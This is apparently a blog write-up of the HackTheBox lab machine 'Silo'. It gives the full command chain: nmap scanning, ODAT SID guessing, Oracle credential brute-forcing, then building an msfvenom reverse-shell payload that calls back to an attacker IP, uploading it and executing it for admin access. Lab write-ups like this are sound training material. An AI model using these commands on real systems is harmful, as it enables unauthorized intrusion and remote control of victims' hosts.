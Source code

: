 ```yaml
---
layout: single
title: Silo
date: 2023-09-21 
toc: true
classes: wide
excerpt: "Solving Silo machine from HackTheBox."
header:
  teaser: /assets/images/hackthebox/silo/teaser.png
  teaser_home_page: true
categories:
  - machines
tags:
  - hackthebox
  - windows
---
```


![Silo](/assets/images/hackthebox/silo/teaser.png)

Silo is one of many HackTheBox Machines. In this case it is a windows machine with the purpose of learning how to assess a vulnerable Oracle service. According to HackTheBox, Silo focuses mainly on leveraging Oracle to obtain a shell and escalate privileges. It was intended to be completed manually using various tools, however Oracle Database Attack Tool greatly simplifies the process, reducing the difficulty of the machine substantially. 

In this write-up we will learn the basic usage of ODAT to compromis the machine.


# Recon

For the initial recon we will use the following **nmap** command to discover all open ports in the machine with a TCP SYN scan: 

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.129.95.188 -oG allPorts
```

We see that the following ports are open: 80, 135, 139, 445, 1521, 5985, 47001, 49152, 49153, 49154, 49155, 49159, 49160, 49161, 49162. We do some further enumeration with nmap common scripts: 

```bash 
sudo nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn 10.129.95.188 -oN portsInfo
```

Output:

```python
# Nmap 7.94 scan initiated Wed Sep 20 23:29:01 2023 as: nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn -oN portsInfo 10.129.95.188
Nmap scan report for 10.129.95.188
Host is up (0.088s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2023-09-21T03:31:03
|_  start_date: 2023-09-21T00:11:32
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 20 23:31:09 2023 -- 1 IP address (1 host up) scanned in 128.07 seconds
```


We see one interesting port for Oracle (1521). This type of service can be attacked with ODAT (Oracle Database Attacking Tool). A detailed installation guide can be found in the github repository:  https://github.com/quentinhardy/odat

# Exploitation

## Step 1:  Find SID

The first step is to find the SID for the Oracle instance. SID is short for session id - a unique identifier for each session in a database. From the manual: "The system identifier (SID) is a unique name for an Oracle database instance on a specific host." This is a required parameter for the other commands we will use with ODAT. The following command is used to extract a valid SID: 

```bash
python3 odat.py sidguesser -s 10.129.95.188
```

![SID](/assets/images/hackthebox/silo/sid.png)

## Step 2: Account Bruteforce

Now that we have the SID, we need some valid credentials to continue with the attack. The default word-list used by ODAT is not the best, so we will use a word-list found inside the Metasploit Framework.  ODAT uses the format `user/password` for word-lists but metasploit's wordlist uses a space to separate users and passwords (`user password`). This can be easily fixed using the `tr` command to replace spaces for forward slashes and then we can execute the brute-force attack.

```bash
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' > wordlist.txt

python3 odat.py passwordguesser -s 10.129.95.188 -d XE --accounts-file wordlist.txt
```

After a couple of minutes, the credentials `scott/tiger` are evaluated as valid.

## Step 3: Upload Payload

With ODAT we can interact with the victim's windows filesystem. For example, we can download the hosts file in our machine:

```bash
python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --getFile /Windows/System32/Drivers/etc/ hosts hosts --sysdba
```

![getFile](/assets/images/hackthebox/silo/getFile.png)

In the same way, we can upload a malicious payload created with **msfvenom** to obtain a reverse shell: 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.188 LPORT=443 -a x64 --platform Windows -f exe -o shell.exe

python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --putFile /Windows/Temp shell.exe shell.exe --sysdba

```

**Note**: It's important to use the `--sysdba` option to gain the appropriate privileges on the victim machine. You can think of sysdba as root for Oracle.

## Step 4: Execute Payload

Finally we can execute the payload:

```bash
python3 odat.py externaltable -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --exec /Windows/Temp shell.exe --sysdba
```

Admin privileges are automatically obtained:

![root](/assets/images/hackthebox/silo/root.png)

And we can retrieve the flags:

![flags](/assets/images/hackthebox/silo/flags.png)




